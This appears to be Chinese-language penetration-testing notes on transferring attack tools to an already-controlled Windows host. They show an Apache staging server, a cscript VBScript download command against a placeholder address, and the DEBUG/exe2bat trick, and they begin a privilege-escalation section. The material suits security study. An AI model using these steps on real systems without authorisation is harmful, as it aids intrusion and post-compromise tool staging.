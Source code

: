 - VBScript的方式上传工具

  - 前提：已经远程控制目标主机
  - 本地开启Apache服务

  ```
  service apache2 start
  
  netstat -pantu | grep 80
  ```

  - Apache服务的主目录

  ```
  /var/www/html/
  ```

  - Apache主目录里放置工具
  - 远程主机的控制台窗口中将所有以vbs下载工具的命令写入VBScript脚本
  - 控制台窗口中执行脚本，下载工具

  ```
  cscript your_script.vbs http://your_apache_server_address/your_tools saved_tools
  //cscript是执行vbs脚本文件的命令
  ```

- Power Shell的方式上传工具

  - Power Shell为微软主流使用的脚本语言

- DEBUG的方式上传工具

  - upx命令可以压缩软件
  - 把工具转换成bat代码文件

  ```
  wine /usr/share/windows-binaries/exe2bat.exe your_tools.exe translate_to_bat_code.txt
  ```

  - 把以上生成的txt文件中的内容除了最后两行，全部复制，通过控制台窗口传输过去
  - 控制台窗口中debug传输过去的文件

  ```
  debug 123.hex
  //一般来说，translate_to_bat_code.txt中的代码生成的文件默认为123.hex，debug123.hex后，默认生成1.DLL
  ```

  - 生成的DLL程序就是your_tools.exe工具，控制台窗口中重命名即可

  ```
  copy 1.DLL your_tools.exe
  ```




## 4. 本地提权

- Windows系统账号（权限依次升高）

  - USER
  - Administrator
  - System
  - Administrator完全包含USER，System与前面两个有大部分的包含
